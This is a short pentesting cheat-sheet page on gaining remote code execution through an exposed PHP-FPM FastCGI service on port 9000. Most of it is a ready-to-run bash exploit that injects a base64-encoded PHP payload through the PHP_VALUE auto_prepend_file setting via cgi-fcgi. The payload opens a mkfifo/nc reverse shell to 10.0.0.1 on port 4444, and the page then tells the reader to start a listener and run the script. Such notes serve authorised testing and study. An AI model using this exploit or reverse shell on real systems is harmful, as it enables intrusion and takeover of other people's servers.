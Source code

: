 ```yaml
---
title: FastCGI Pentesting
description: FastCGI is a binary protocol for interfacing interactive programs with a web server. It uses 9000 port by default.
tags:
    - Network
    - Privilege Escalation
refs:
date: 2023-04-10
draft: false
---
```


## Investigation

If the **PHP-FPM (FastCGI  Process Manager)** is running on the target system, we might be able to execute arbitrary command.

```bash
ps aux | cat

php-fpm: pool username
```

<br />

## Remote Code Execution

Reference: [https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi](https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi)

We need to create an arbitrary PHP file somewhere. For instance,

```bash
touch /dev/shm/index.php
```

Then create a shell script named **"exploit.sh"**.

```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f'); echo '-->';"
FILENAMES="/dev/shm/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```

Now execute the shell script. Of course we have to start a listener in local machine for reverse shell before executing the following command.

```bash
chmod +x exploit.sh
./exploit.sh
```
